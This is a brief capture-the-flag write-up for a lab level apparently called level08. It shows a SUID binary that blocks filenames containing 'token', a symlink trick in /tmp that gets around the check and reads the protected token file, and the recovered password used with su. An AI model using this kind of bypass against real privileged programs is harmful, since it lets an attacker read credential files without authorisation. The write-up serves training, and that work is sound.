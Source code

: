 **SUID** binary and token file that contain password of **flag08**
```
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

![[Pasted image 20241125113442.png]]

This script read file with **level08** permission only if the filename doesn't contain the word *'token'*

Exploit
```
ln -s /home/user/level08/token /tmp/t
./level08 /tmp/t
```

```
su flag08 / quif5eloekouj29ke0vouxean
```

